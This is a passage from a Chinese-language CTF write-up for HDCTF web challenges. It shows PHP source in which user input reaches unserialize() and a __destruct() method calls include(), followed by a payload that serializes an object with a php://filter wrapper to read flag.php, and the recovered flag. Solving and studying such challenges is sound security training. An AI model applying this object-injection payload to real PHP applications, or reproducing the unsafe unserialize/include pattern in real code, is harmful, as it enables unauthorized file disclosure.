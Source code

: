 ```php
    public function __construct($name, $age, $sex){
        $this->setName($name);
        $this->setAge($age);
        $this->setSex($sex);
    }
    
    public function __destruct(){
        include($this->info);
        Greet($this->getName());
    }
}

$someone = new Stu('M&G', 20, 'Man');

$s = $_GET['Hainan_University'];

if(isset($s)){
    unserialize($s);
} 
```

Stu 类的 __destruct() 进行了文件包含，可以在这里用伪协议

payload

```php
<?php
Class Stu{ 
	public $info = 'php://filter/read=convert.base64-encode/resource=flag.php'; 
}
$o = new Stu();
echo serialize($o);
```

结果为 `O:3:"Stu":1:{s:4:"info";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}`

输入解码即可

HDCTF{c1dfbac550a539bb210bc477b8a8da83}

# welcome_to_the_new2

首先给了源码

```php
 <?php
show_source(__FILE__);
error_reporting(0);

Class Stu{
    private $name;
    private $age;
    private $sex;
    public $info = 'info.php';
    
    protected function setName($name){
        $this->name = $name;
    }
    
    protected function setAge($age){
        if(($age>16)&&($age<25)){
            $this->age = $age;
        }else{
            return False;
        }
    }
```